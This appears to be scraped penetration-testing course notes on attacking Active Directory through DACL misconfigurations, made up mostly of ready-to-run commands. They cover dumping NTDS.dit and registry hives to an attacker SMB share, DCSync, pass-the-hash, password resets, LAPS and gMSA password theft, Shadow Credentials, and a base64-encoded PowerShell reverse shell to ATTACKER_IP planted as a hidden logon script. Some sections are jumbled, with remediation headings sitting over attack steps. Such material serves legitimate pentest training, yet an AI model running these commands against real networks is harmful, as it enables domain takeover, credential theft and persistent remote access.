# Contents of diskshadowscript.txt:
# set context persistent nowriters
# set metadata c:\windows\temp\file.cab
# set verbose on
# begin backup
# add volume c: alias mydrive
# create
# expose %mydrive% p:
# end backup
# Execute diskshadow
diskshadow /s C:\Users\Public\diskshadowscript.txt
# Copy NTDS.dit from shadow copy
robocopy /b P:\Windows\ntds\ C:\Users\Public\ ntds.dit8.4.5 Abusing Newly Gained Privileges (Linux)
From Linux, each tool invocation creates a new connection, so re-authentication happens automatically. Use reg.py from Impacket to retrieve registry hives:
# Start an SMB server to receive files
sudo smbserver.py -smb2support share .
# Retrieve SAM & SYSTEM registry hives
reg.py [domain]/[user]:[password]@DC_IP backup -o '\\ATTACKER_IP\share'
# Dump credentials from SAM, SYSTEM, and NTDS.dit
secretsdump.py -sam SAM.save -system SYSTEM.save -ntds ntds.dit LOCAL
# Pass-the-Hash to the target
psexec.py administrator@DC_IP -hashes :NTHASHIf the user lacks SMB access to the target, you may need to connect via RDP to download ntds.dit manually.
Methodology
-
python3 dacledit.py -principal ATTACKER -target 'TARGET GROUP' -dc-ip DC_IP DOMAIN/USER:PASS -
python3 addusertogroup.py -d DOMAIN -g "GROUP" -a USER -u USER -p PASS -
Add-DomainGroupMember -Identity "GROUP" -Members USER -Verbose -
reg save hklm\sam C:\users\Public\sam && reg save hklm\system C:\users\Public\system diskshadow /s C:\Users\Public\diskshadowscript.txt robocopy /b P:\Windows\ntds\ C:\Users\Public\ ntds.dit -
secretsdump.py -sam SAM.save -system SYSTEM.save -ntds ntds.dit LOCAL
8.5 Password Abuse
DACL misconfigurations can enable multiple forms of password abuse: resetting another user's password without knowing the old one, reading LAPS-managed local administrator passwords, or extracting gMSA password blobs. Techniques covered: ForceChangePassword, ReadLAPSPassword, and ReadGMSAPassword.
8.5.1 ForceChangePassword
User-Force-Change-Password is an extended access right that allows resetting another account's password without knowing the current one. This is different from User-Change-Password which requires the old password.
Prerequisites: The attacking principal must have GenericAll, AllExtendedRights, or User-Force-Change-Password over the target account.
Identifying vulnerable accounts (BloodHound):
MATCH p=((n:User {name:"PEDRO@[domain]"})-[r:ForceChangePassword|GenericAll|AllExtendedRights]->(m)) RETURN pIdentifying with dacledit.py (Linux):
# Check for User-Force-Change-Password
python3 dacledit.py -principal [user] -target yolanda -dc-ip [target-ip] [domain]/[user]:[password]
# Check for FullControl (implies all rights)
python3 dacledit.py -principal [user] -target htb-test -dc-ip [target-ip] [domain]/[user]:[password]
# Check for AllExtendedRights (includes ForceChangePassword)
python3 dacledit.py -principal [user] -target joshua -dc-ip [target-ip] [domain]/[user]:[password]Different access masks enable password reset:
| Access Mask | Hex Value | Implication |
|---|---|---|
ControlAccess + GUID 00299570... | 0x100 | Explicit User-Force-Change-Password right |
FullControl | 0xf01ff | Includes all rights, including password reset |
AllExtendedRights | 0x100 (no GUID) | All extended rights, including password reset |
Identifying with PowerView (Windows):
Import-Module .\PowerView.ps1
$userSID = (Get-DomainUser -Identity [user]).objectsid
# Without GUID resolution (shows raw GUID)
Get-DomainObjectAcl -Identity yolanda | ?{$_.SecurityIdentifier -eq $userSID}
# With GUID resolution (shows display name)
Get-DomainObjectAcl -Identity yolanda -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $userSID}8.5.2 Abusing ForceChangePassword from Linux
pth-toolkit can be used to run net commands with pass-the-hash if you only have NTLM hashes.
8.5.3 Abusing ForceChangePassword from Windows
8.5.4 ReadLAPSPassword
Microsoft Local Administrator Password Solution (LAPS) manages unique, randomized local administrator passwords on domain-joined computers, rotating them every 30 days by default. Passwords are stored in Active Directory in the ms-MCS-AdmPwd attribute of computer objects and protected by ACLs.
How LAPS works:
Identifying LAPS Privileges (BloodHound):
MATCH p=((n)-[r:ReadLAPSPassword]->(m)) RETURN pIdentifying with dacledit.py:
# dacledit.py does NOT correlate group memberships -- you must query the group directly
# This will return NO results even if Rita is in LAPS Readers:
python3 dacledit.py -principal rita -target 'laps09$' -dc-ip [target-ip] [domain]/[user]:[password]
# Use the GROUP name as principal instead:
python3 dacledit.py -principal 'LAPS READERS' -target 'laps09$' -dc-ip [target-ip] [domain]/[user]:[password]Both dacledit.py and PowerView do not perform recursive group membership resolution. You must check groups explicitly.
Identifying with PowerView:
$group = Get-DomainGroup -Identity "LAPS Readers"
Get-DomainObjectAcl -Identity LAPS09 -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $group.objectsid}Look for ActiveDirectoryRights: ReadProperty with ObjectAceType: ms-Mcs-AdmPwd.
8.5.5 Abusing ReadLAPSPassword from Windows
The above script only shows passwords readable by the currently authenticated user.
# Method 1: PowerView
Import-Module .\PowerView.ps1
Get-DomainObject -Identity LAPS09 -Properties "ms-mcs-AdmPwd",name
# Method 2: Active Directory module
Import-Module ActiveDirectory
Get-ADComputer -Identity LAPS09 -Properties "ms-mcs-AdmPwd",name
# Enumerate ALL LAPS-enabled computers and dump accessible passwords
Import-Module .\PowerView.ps1
Get-DomainComputer -Properties name | ForEach-Object {
$computer = $_.name
$obj = Get-DomainObject -Identity $computer -Properties "ms-mcs-AdmPwd",name -ErrorAction SilentlyContinue
if($obj.'ms-mcs-AdmPwd'){
Write-Output "$computer`: $($obj.'ms-mcs-AdmPwd')"
}
}8.5.6 Abusing ReadLAPSPassword from Linux
8.5.7 ReadGMSAPassword
Group Managed Service Accounts (gMSAs) provide automated password management for service accounts. Unlike regular service accounts, gMSAs have their passwords automatically generated, securely stored, and periodically rotated by the AD domain controller. The password (typically 240 characters) is effectively uncrackable.
Key distinction: dacledit.py does not support enumerating ReadGMSAPassword privileges. Use BloodHound instead.
Identifying with BloodHound:
MATCH p=((n)-[r:ReadGMSAPassword]->(m)) RETURN p8.5.8 Abusing ReadGMSAPassword from Linux
Once you have the NTLM hash, use OverPass-the-Hash with Mimikatz to get a Kerberos ticket:
# Using gMSADumper.py
python3 gMSADumper.py -d [domain] -l [target-ip] -u [user] -p [password]
# Output includes NTLM and AES hashes for each accessible gMSA:
# jenkins-dev$:::4d8bcd4f5c70fe71beb848b4ab124e61
# jenkins-dev$:aes256-cts-hmac-sha1-96:a565e79da9912d5b...
# tomcat-dev$:::61eaf67d824f3928a8b8dc86e00f156d
# apache-dev$:::69978088b44350772febdb1e3dac6f39
# Validate credentials using Pass-the-Hash
crackmapexec ldap [target-ip] -u jenkins-dev$ -H 4d8bcd4f5c70fe71beb848b4ab124e618.5.9 Abusing ReadGMSAPassword from Windows
This opens a new PowerShell window authenticated as the gMSA account. If you subsequently change the gMSA's group membership or rights, you must launch a new session to inherit the updated privileges.
Methodology
-
python3 dacledit.py -principal ATTACKER -target TARGET -dc-ip DC_IP DOMAIN/USER:PASS -
net rpc password TARGET NEWPASS -U DOMAIN/ATTACKER%PASS -S DC_IP -
Set-DomainUserPassword -Identity TARGET -AccountPassword $((ConvertTo-SecureString 'NEWPASS' -AsPlainText -Force)) -
MATCH p=((n)-[r:ReadLAPSPassword]->(m)) RETURN p -
python3 laps.py -u USER -p PASS -l DC_IP -d DOMAIN -
Get-DomainObject -Identity COMPUTER -Properties "ms-mcs-AdmPwd",name -
MATCH p=((n)-[r:ReadGMSAPassword]->(m)) RETURN p -
python3 gMSADumper.py -d DOMAIN -l DC_IP -u USER -p PASS -
GMSAPasswordReader.exe --accountname GMSA_ACCOUNT -
crackmapexec smb DC_IP -u 'GMSA$' -H NTHASH
8.6 Granting Rights and Ownership
The WriteDACL and WriteOwner access rights are among the most dangerous DACL misconfigurations because they allow an attacker to escalate any other privilege. With WriteDACL, you can modify an object's DACL to grant yourself any rights (including DCSync). With WriteOwner, you can take ownership of an object, which implicitly grants WriteDACL and ReadControl, enabling the same escalation chain.
8.6.1 WriteDACL
Identifying WriteDACL (BloodHound): Use the pathfinding feature to find paths from a controlled account to a target. The WriteDACL edge will appear if the principal has this right.
Identifying with PowerView:
Import-Module .\PowerView.ps1
$userSID = ConvertTo-SID [user]
Get-DomainSID | Get-DomainObjectAcl -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $userSID}
# Look for: ActiveDirectoryRights: WriteDaclIdentifying with dacledit.py:
# Use -target-dn for domain-level objects
python3 dacledit.py -principal [user] -target-dn dc=[domain-short],dc=local -dc-ip [target-ip] [domain]/[user]:[password]
# Look for: Access mask: WriteDACL (0x40000)8.6.2 Abusing WriteDACL from Linux
WriteDACL alone does not allow performing DCSync; you must first use it to grant DCSync rights to your account.
# Step 1: Verify DCSync fails before DACL modification
secretsdump.py -just-dc-user krbtgt [domain]/[user]:[password]@DC_IP
# Result: ERROR_DS_DRA_BAD_DN
# Step 2: Grant DCSync rights using dacledit.py
python3 dacledit.py -principal [user] -target-dn dc=[domain-short],dc=local -dc-ip [target-ip] [domain]/[user]:[password] -action write -rights DCSync
# Output: DACL backed up to dacledit-TIMESTAMP.bak / DACL modified successfully!
# Step 3: Verify the new ACEs
python3 dacledit.py -principal [user] -target-dn dc=[domain-short],dc=local -dc-ip [target-ip] [domain]/[user]:[password]
# Should show DS-Replication-Get-Changes and DS-Replication-Get-Changes-All
# Step 4: Perform DCSync
secretsdump.py -just-dc-user krbtgt [domain]/[user]:[password]@DC_IP
# Output: krbtgt:502:aad3b435b51404eeaad3b435b51404ee:HASH8.6.3 Abusing WriteDACL from Windows
# Grant DCSync rights using PowerView
Import-Module .\PowerView.ps1
Add-DomainObjectAcl -TargetIdentity $(Get-DomainSID) -PrincipalIdentity [user] -Rights DCSync -Verbose
# Perform DCSync using Mimikatz
mimikatz.exe "lsadump::dcsync /domain:[domain] /user:krbtgt /csv"8.6.4 Abusing WriteDACL on Other Objects
When WriteDACL targets a group or user (not the domain root), use it to assign FullControl over the target, then chain into the appropriate abuse:
# Query current DACL over the Finance group
python3 dacledit.py -principal [user] -target "Finance" -dc-ip [target-ip] [domain]/[user]:[password]
# Shows: WriteDACL (0x40000)
# Grant FullControl over the Finance group (default right when -rights is omitted)
python3 dacledit.py -principal [user] -target "Finance" -dc-ip [target-ip] [domain]/[user]:[password] -action write
# Output: DACL backed up / DACL modified successfully!
# Verify FullControl was granted
python3 dacledit.py -principal [user] -target "Finance" -dc-ip [target-ip] [domain]/[user]:[password]
# Shows: FullControl (0xf01ff)
# Add yourself to the group
python3 addusertogroup.py -d [domain] -g "Finance" -a [user] -u [user] -p [password]
# CLEANUP: Restore original DACL from backup
python3 dacledit.py -principal [user] -target "Finance" -dc-ip [target-ip] [domain]/[user]:[password] -action restore -file dacledit-TIMESTAMP.bakdacledit.py automatically creates a backup file when performing write operations. Always save this file for cleanup/restoration.
8.6.5 WriteOwner
Attack chain: WriteOwner -> Take Ownership -> WriteDACL (implicit) -> Grant FullControl/ResetPassword/DCSync -> Abuse
Key nuance: Ownership is not visible in DACL enumeration tools. dacledit.py and PowerView will return no results when querying an owner's rights via DACL filtering, because ownership grants are implicit, not explicit ACEs. Use BloodHound to detect ownership relationships.
# dacledit.py returns nothing for owner relationships:
python3 dacledit.py -principal [user] -target Managers -dc-ip [target-ip] [domain]/[user]:[password]
# (no output)
# PowerView also returns nothing:
Get-DomainObjectAcl -Identity Managers -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $LiliaSID}
# (no output)Identifying WriteOwner with BloodHound:
MATCH p=((n:User)-[r:WriteOwner]->(m)) RETURN pIdentifying with dacledit.py and PowerView:
# dacledit.py CAN detect WriteOwner as an explicit ACE (not ownership itself)
python3 dacledit.py -principal [user] -target [target-user] -dc-ip [target-ip] [domain]/[user]:[password]
# Shows: Access mask: WriteOwner (0x80000)
$userSID = ConvertTo-SID [user]
Get-DomainObjectAcl -Identity [target-user] -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $userSID}
# Shows: ActiveDirectoryRights: WriteOwner8.6.6 Abusing WriteOwner from Linux
Use Impacket's owneredit.py from the ShutdownRepo fork:
# Download owneredit.py
wget https://raw.githubusercontent.com/ShutdownRepo/impacket/owneredit/examples/owneredit.py -O ./owneredit.py
# Step 1: Take ownership of the target object
python3 owneredit.py -action write -new-owner [user] -target [target-user] -dc-ip [target-ip] [domain]/[user]:[password]
# Output: OwnerSid modified successfully!
# Step 2: Grant FullControl (now possible because ownership grants WriteDACL)
python3 dacledit.py -principal [user] -target [target-user] -action write -rights FullControl -dc-ip [target-ip] [domain]/[user]:[password]
# Output: DACL modified successfully!
# Step 3: Perform the actual attack (e.g., password reset)
net rpc password [target-user] [password] -U [domain]/[user]%[password] -S [target-ip]
# Validate
crackmapexec ldap [target-ip] -u [target-user] -p [password]8.6.7 Abusing WriteOwner from Windows
Methodology
-
MATCH p=((n:User)-[r:WriteDacl|WriteOwner]->(m)) RETURN p -
python3 dacledit.py -principal ATTACKER -target-dn dc=DOMAIN,dc=LOCAL -dc-ip DC_IP DOMAIN/USER:PASS -action write -rights DCSync -
Add-DomainObjectAcl -TargetIdentity $(Get-DomainSID) -PrincipalIdentity ATTACKER -Rights DCSync -
secretsdump.py -just-dc-user krbtgt DOMAIN/USER:PASS@DC_IP -
python3 dacledit.py -principal ATTACKER -target TARGET -dc-ip DC_IP DOMAIN/USER:PASS -action write -rights FullControl -
python3 owneredit.py -action write -new-owner ATTACKER -target TARGET -dc-ip DC_IP DOMAIN/USER:PASS -
Set-DomainObjectOwner -Identity TARGET -OwnerIdentity ATTACKER Add-DomainObjectAcl -TargetIdentity TARGET -PrincipalIdentity ATTACKER -Rights All -
python3 dacledit.py -principal ATTACKER -target TARGET -dc-ip DC_IP DOMAIN/USER:PASS -action restore -file dacledit-TIMESTAMP.bak
Remediation for WriteDACL and WriteOwner:
# Step 1: Take ownership using PowerView
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -Identity [target-user] -OwnerIdentity [user] -Verbose
# Step 2: Grant FullControl (PowerView uses -Rights All instead of FullControl)
Add-DomainObjectAcl -TargetIdentity [target-user] -PrincipalIdentity [user] -Rights All -Verbose
# Can also use -RightsGUID for specific extended rights
# Step 3: Perform the attack (e.g., password reset via net)
net user [target-user] [new-password] /domain8.7 DACL Attacks Summary and Detection
The following table summarizes all DACL abuse scenarios covered above, their prerequisites, and which tools support each attack from Linux and Windows.
# Method 1: Using net rpc (does NOT require admin rights on Linux, unlike Windows)
net rpc password yolanda [password] -U [domain]/[user]%[password] -S [target-ip]
# Method 2: Using rpcclient
rpcclient -U [DOMAIN]/[user]%[password] [target-ip]
rpcclient $> setuserinfo2 yolanda 23 Mynewpassword2
rpcclient $> exit
# Validate the new password
crackmapexec ldap [target-ip] -u yolanda -p [password]| Attack | Required Rights | Target Object | Linux Tool | Windows Tool | Achieves |
|---|---|---|---|---|---|
| Targeted Kerberoasting | GenericAll, GenericWrite, WriteProperty, WriteSPN, Validated-SPN | User | targetedKerberoast.py | PowerView Set-DomainObject + Get-DomainSPNTicket | Offline password cracking of target user |
| AddMembers | GenericAll, GenericWrite, Self (Self-Membership), AllExtendedRights, WriteMembers | Group | addusertogroup.py (LDAP), net rpc (except Self-Membership) | PowerView Add-DomainGroupMember | Group membership escalation |
| ForceChangePassword | GenericAll, AllExtendedRights, User-Force-Change-Password | User | net rpc password, rpcclient setuserinfo2 | PowerView Set-DomainUserPassword, AD module Set-ADAccountPassword | Account takeover via password reset |
| ReadLAPSPassword | ReadProperty on ms-MCS-AdmPwd, GenericAll, AllExtendedRights | Computer | LAPSDumper | PowerView/AD module reading ms-mcs-AdmPwd | Local admin access to LAPS-managed computers |
| ReadGMSAPassword | Listed in msDS-GroupMSAMembership | gMSA Account | gMSADumper.py | GMSAPasswordReader.exe | Service account hash for PtH/OtH |
| WriteDACL | WriteDACL | Any (Domain, User, Group, GPO) | dacledit.py -action write | PowerView Add-DomainObjectAcl | Grant arbitrary rights (DCSync, FullControl, etc.) |
| WriteOwner | WriteOwner | Any | owneredit.py | PowerView Set-DomainObjectOwner | Take ownership -> WriteDACL -> arbitrary rights |
Methodology
-
bloodhound-python -u USER -p PASS -d DOMAIN -dc DC_FQDN -c All -
MATCH p=shortestPath((n:User {owned:true})-[r*1..]->(m:Domain)) RETURN p -
python3 dacledit.py -action restore -file dacledit-TIMESTAMP.bak -principal ATTACKER -target TARGET -dc-ip DC_IP DOMAIN/USER:PASS
9. DACL Attacks II
| Attack | Required DACL Right | Target Attribute/Object | Impact |
|---|---|---|---|
| Shadow Credentials | GenericAll, GenericWrite, or WriteProperty on msDS-KeyCredentialLink | User or Computer account | Full account takeover, NTLM hash recovery |
| Logon Scripts | WriteProperty on scriptPath | User account | Code execution as target user on logon |
| SPN Jacking | WriteSPN (Validated-SPN) | Computer account SPN | Service impersonation via Constrained Delegation abuse |
| sAMAccountName Spoofing | GenericAll / GenericWrite on account | sAMAccountName attribute | Domain Controller impersonation, DCSync |
| GPO Attacks | Modify / Create / Link GPO rights | Group Policy Objects | Code execution on all computers in GPO scope |
9.1 Shadow Credentials
Shadow Credentials is an account takeover technique that abuses Windows Hello for Business (WHfB) passwordless authentication. It works by adding Key Credentials to the msDS-KeyCredentialLink attribute of a target user or computer account, then performing Kerberos PKINIT authentication as that account. This method is more reliable than older techniques like password resets (which alert the user) or Resource-Based Constrained Delegation (RBCD) against computers.
9.1.1 Kerberos Pre-Authentication and PKINIT
In standard Kerberos authentication, the client proves identity during pre-authentication by encrypting the current timestamp with a key derived from its password (DES, RC4, AES128, or AES256). The KDC, which holds all password-derived keys, verifies the timestamp can be decrypted. If pre-authentication succeeds, the KDC issues a TGT.
PKINIT (Public Key Cryptography for Initial Authentication) is a pre-authentication extension defined in RFC 4556 that allows asymmetric authentication using X.509 certificates instead of password-derived keys. Microsoft's implementation is specified in [MS-PKCA]. With PKINIT, a client proves identity using a private key corresponding to a public key registered in AD, rather than a password hash.

9.1.2 Passwordless Authentication and Key Trust
Microsoft introduced Key Trust in Windows Server 2016 to enable passwordless authentication without requiring Certificate Trust. Under Key Trust, PKINIT authentication uses raw key data stored in the msDS-KeyCredentialLink attribute instead of a certificate issued by AD CS.
The msDS-KeyCredentialLink attribute is a multi-valued attribute containing serialized Key Credential objects. Each Key Credential includes:
- Creation date
- Distinguished name of the owner
- A GUID representing a Device ID
- The public key
With Windows Hello for Business, the TPM generates a public-private key pair. The private key stays in the TPM (never exported), while the public key is stored in msDS-KeyCredentialLink. When the user logs in, Windows performs PKINIT using the private key. Under Key Trust, the DC decrypts pre-authentication data using the raw public key from the target's msDS-KeyCredentialLink.
9.1.3 Shadow Credential Attack Mechanism
Root cause: If an attacker has write access to the msDS-KeyCredentialLink attribute of a target account, they can inject their own Key Credential (a public key they control). The attacker then authenticates as the target via PKINIT using the corresponding private key. This is possible because the KDC trusts any public key stored in msDS-KeyCredentialLink without verifying who placed it there.
Required DACL rights on the target:
9.1.4 Recovering NTLM Hash via U2U
When a client uses PKINIT, Microsoft includes the NTLM hash inside the Privilege Attribute Certificate (PAC) in an encrypted NTLM_SUPPLEMENTAL_CREDENTIAL entity within the ticket. The TGT is encrypted with the KRBTGT key, which the client cannot decrypt. However, by performing Kerberos User-to-User (U2U) authentication to itself, the client can obtain a service ticket encrypted with its own session key (which it possesses), allowing decryption of the PAC and extraction of the NTLM hash.
Why this works: In a U2U TGS-REQ, the KDC uses the target user's TGT as an additional ticket. The KDC extracts the session key from the TGT's encrypted portion and generates a service ticket encrypted with that session key. If a user requests a U2U service ticket from itself to itself, the resulting ticket is encrypted with a key the user already has, granting access to the PAC contents including the NTLM hash.

9.1.5 Prerequisites
| # | Prerequisite | Reason |
|---|---|---|
| 1 | At least one DC running Windows Server 2016+ | PKINIT Key Trust features were introduced in Server 2016 |
| 2 | Domain Functional Level Windows Server 2016+ | Required for msDS-KeyCredentialLink attribute support |
| 3 | DC must have its own certificate and keys (AD CS / PKI / CA) | The DC requires a certificate for the session key exchange during AS_REQ/AS_REP. Without it, KRB-ERROR (16): KDC_ERR_PADATA_TYPE_NOSUPP is raised |
| 4 | Write access to target's msDS-KeyCredentialLink | Needed to inject the attacker-controlled Key Credential |
9.1.6 Enumeration from Windows
BloodHound: Collect data with SharpHound, then search for paths with the AddKeyCredentialLink edge, which indicates WriteProperty on the msDS-KeyCredentialLink attribute.
# Collect data
.\SharpHound.exe -c All
# In BloodHound, search for path from controlled user to target
# Look for GenericAll, GenericWrite, or AddKeyCredentialLink edgesPowerView: Query ACLs to identify GenericAll, GenericWrite, or WriteProperty rights over target accounts.
Import-Module .\PowerView.ps1
$userSID = (Get-DomainUser -Identity [user]).objectsid
Get-DomainObjectAcl -Identity [user] | ?{$_.SecurityIdentifier -eq $userSID}Querying existing Key Credentials:
# Find users with msDS-KeyCredentialLink already set
Get-DomainUser -Filter '(msDS-KeyCredentialLink=*)'9.1.7 Enumeration from Linux
dacledit.py (from ShutdownRepo's Impacket fork) can query ACLs to identify write rights over the target.
# Install dacledit
git clone https://github.com/ShutdownRepo/impacket -b dacledit
cd impacket
python3 -m venv .dacledit
source .dacledit/bin/activate
python3 -m pip install .
# Query ACEs
python3 examples/dacledit.py -target [user] -principal [user] -dc-ip [target-ip] lab.local/[user]:[password]The output shows FullControl (0xf01ff) confirming that the principal has full rights over the target account.
9.1.8 Abusing Shadow Credentials from Windows
Use Whisker to manipulate the msDS-KeyCredentialLink attribute.
# List existing key credentials
.\Whisker.exe list /target:[user]
# Add a new shadow credential (auto-generates certificate)
.\Whisker.exe add /target:[user]
# Output includes: certificate blob, password, and Rubeus command
# Request TGT and recover NTLM hash with Rubeus
.\Rubeus.exe asktgt /user:[user] /certificate:MIIJuAIBAzCCCXQGC...SNIP... /password:"[cert-password]" /domain:lab.local /dc:[dc-fqdn] /getcredentials /show /nowrapThe /getcredentials flag triggers a U2U request to extract the NTLM hash from the PAC.
Using the TGT via Pass the Ticket:
# Create sacrificial logon session
.\Rubeus.exe createnetonly /program:powershell.exe /show
# In the new PowerShell window, import the ticket
.\Rubeus.exe ptt /ticket:doIGJjCCBiKgAwIBBaEDAgEWooIFRTCCBUFhggU9MIIFOaADA...SNIP...Whisker management commands:
# Remove a specific key credential
.\Whisker.exe remove /target:[user] /deviceid:48d97546-cac9-4e92-981b-e89da231f7a8
# Clear ALL key credentials (WARNING: disrupts legitimate WHfB users)
.\Whisker.exe clear /target:[user]9.1.9 Abusing Shadow Credentials from Linux
Use pyWhisker (Python equivalent of Whisker) together with PKINITtools.
# Install pyWhisker
git clone https://github.com/ShutdownRepo/pywhisker
# Add shadow credential
python3 pywhisker.py -d lab.local -u [user] -p [password] --target [user] --action add
# Output: PFX certificate file, password, DeviceID
# Install PKINITtools
git clone https://github.com/dirkjanm/PKINITtools
pip3 install impacket minikerberos
# Request TGT using the certificate
python3 gettgtpkinit.py -cert-pfx ../pywhisker/BX4EWk8m.pfx -pfx-pass KQAx5lHP3h9TtzNly2Us lab.local/[user] [user].ccache
# Note the AS-REP encryption key in the output
# Extract NTLM hash using U2U
KRB5CCNAME=[user].ccache python3 getnthash.py -key 46c30d948cbe2ab0749d2f72896692c18673e9a4fae6438bff32a33afb49245a lab.local/[user]
# Use the TGT to authenticate
KRB5CCNAME=[user].ccache smbclient.py -k -no-pass LAB-DC.LAB.LOCALMethodology
-
# Check domain functional level (Get-ADDomain).DomainMode # Check if AD CS is installed (look for CA certificates) certutil -config - -ping -
Get-DomainObjectAcl -Identity <target> | ?{$_.SecurityIdentifier -eq $controlledSID} -
.\Whisker.exe add /target:<user> .\Rubeus.exe asktgt /user:<user> /certificate:<blob> /password:"<pass>" /domain:<domain> /dc:<dc> /getcredentials /show /nowrap -
python3 pywhisker.py -d <domain> -u <user> -p <pass> --target <target> --action add python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> <domain>/<target> <target>.ccache KRB5CCNAME=<target>.ccache python3 getnthash.py -key <AS-REP-key> <domain>/<target> -
KRB5CCNAME=<target>.ccache smbclient.py -k -no-pass <DC-FQDN> -
.\Whisker.exe remove /target:<user> /deviceid:<GUID>
Remediation
9.2 Logon Scripts
In Active Directory environments, logon scripts automate tasks when users log into the domain; mapping network drives, auditing, environment customization, etc. There are two methods for assigning logon scripts:
- Legacy logon scripts via the
scriptPathattribute (set in the user's Profile tab in ADUC) - Modern logon scripts via Group Policy (
User Configuration > Windows Settings > Scripts (Logon/Logoff) > Logon)
9.2.1 The scriptPath Attribute
The scriptPath attribute (part of the User-Logon property set, defined in MS-ADA3) specifies the path for a user's logon script. It supports:
| File Type | Extension | Notes |
|---|---|---|
| Batch files | .bat, .cmd | Most common for logon scripts |
| Executables | .exe | Any compiled program |
| VBScript / JScript | .vbs, .js | Via Windows Script Host |
| KiXtart | .kix | Logon script processor |
scriptPath does not support PowerShell scripts directly, but PowerShell commands can be executed from within .bat or .vbs files.
Storage location: Legacy logon scripts must reside in the NETLOGON share, which maps to %systemroot%\SYSVOL\sysvol\<DOMAIN_DNS_NAME>\scripts\ on domain controllers. The LOGONSERVER environment variable identifies the authenticating DC.
Modern logon scripts (set via GPO) support all the above file types plus PowerShell (.ps1) scripts. They are stored in the SYSVOL GPO policy directory rather than NETLOGON.
9.2.2 Abuse Vectors: Write vs. Read scriptPath
Write scriptPath: If we can write the scriptPath attribute AND have write permissions somewhere in the NETLOGON share (both NTFS and share permissions), we can set a user's scriptPath to point to our malicious script. The script executes automatically when the target user next logs into the domain.
Read scriptPath: Even without write rights on scriptPath, read access (the default) can be valuable. We can inspect the file that scriptPath points to and check its permissions using icacls. If we have write permissions on the script file itself, we can modify it directly. This is especially valuable when a "stub" logon script in NETLOGON calls another script stored on a different share where domain users may have write access.
9.2.3 Enumeration from Linux
PywerView:
# Install PywerView
sudo apt install libkrb5-dev -y
git clone https://github.com/the-useless-one/pywerview.git
cd pywerview/ && pip3 install -r requirements.txt
# Query ACEs filtering for the controlled user
python3 pywerview get-objectacl --name 'eric' -w [domain] -t [target-ip] -u '[user]' -p '[password]' --resolve-sids --resolve-guids --json | jq '.results | map(select(.securityidentifier | contains("[user]")))'Look for activedirectoryrights: ["read_property", "write_property"] on objectacetype: "Script-Path".
dacledit.py:
python3 examples/dacledit.py -principal '[user]' -target '[target-user]' -dc-ip [target-ip] [domain]/'[user]':'[password]'
# Look for: Access mask: ReadProperty, WriteProperty
# Object type (GUID): Script-Path (bf9679a8-0de6-11d0-a285-00aa003049e2)Adalanche: A graph-theory tool similar to BloodHound that detects over 90 edge types, including WriteScriptPath (which BloodHound CE does not display).
# Install Go and Adalanche
sudo wget -P /usr/bin/ https://go.dev/dl/go1.22.1.linux-amd64.tar.gz
sudo rm -rf /usr/bin/go && cd /usr/bin/ && sudo tar -xzf go1.22.1.linux-amd64.tar.gz
export PATH=$PATH:/usr/bin/go/bin
git clone https://github.com/lkarlslund/Adalanche
cd Adalanche && pwsh build.ps1
# Collect data
./adalanche-linux-x64-* collect activedirectory --domain [domain] --server [target-ip] --username '[user]' --password '[password]'
# Analyze (launches web UI)
./adalanche-linux-x64-* analyze --datapath data
# Right-click on the user node -> "What can this node pwn?"
# Look for WriteScriptPath edges
9.2.4 Enumeration from Windows
PowerView:
Import-Module .\PowerView.ps1
$UserSID = (Get-DomainUser -Identity [user]).objectSID
Get-DomainObjectAcl -Identity [target-user] -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $UserSID}
# Look for: ActiveDirectoryRights: ReadProperty, WriteProperty
# ObjectAceType: Script-PathScriptSentry: Automates the discovery of logon script misconfigurations including unsafe UNC folder/file permissions, unsafe NETLOGON/SYSVOL permissions, and plaintext credentials in scripts.
.\Invoke-ScriptSentry.ps1
# Reports: Unsafe logon script permissions, plaintext credentials in scripts, etc.9.2.5 Abusing Write scriptPath from Linux
The attack follows four steps:
Step 1: Enumerate NETLOGON for writable directories
# List NETLOGON contents
smbclient //[target-ip]/NETLOGON -U [user]%'[password]' -c "ls"
# Check permissions on a specific folder
smbcacls //[target-ip]/NETLOGON /[scripts-path] -U David%'[password]'
# Look for: ACL:[DOMAIN]\[user]:ALLOWED/OI|CI/RWXStep 2: Create and upload malicious script
# Generate base64-encoded PowerShell reverse shell
python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "ATTACKER_IP"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'
# Create .bat payload file containing:
# powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand
# Or create .vbs payload:
# CreateObject("Wscript.shell").Run "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand "
# Upload to NETLOGON
smbclient //[target-ip]/NETLOGON --directory [scripts-path] -U David%'[password]' -c "put logonScript.bat" Step 3: Update target's scriptPath
# Using ldapmodify - create LDIF file:
cat <<EOF > logonScript.ldif
dn: CN=[target-user],CN=Users,DC=[domain-short],DC=local
changetype: modify
replace: scriptPath
scriptPath: [scripts-path]\logonScript.bat
EOF
ldapmodify -H ldap://[target-ip] -x -D '[user]@[domain]' -w '[password]' -f logonScript.ldif
# Verify the change
ldapsearch -LLL -H ldap://[target-ip] -x -D '[user]@[domain]' -w '[password]' -b "DC=[domain-short],DC=local" "(sAMAccountName=Eric)" scriptPath
# Alternative: Using bloodyAD
pip install bloodyAD
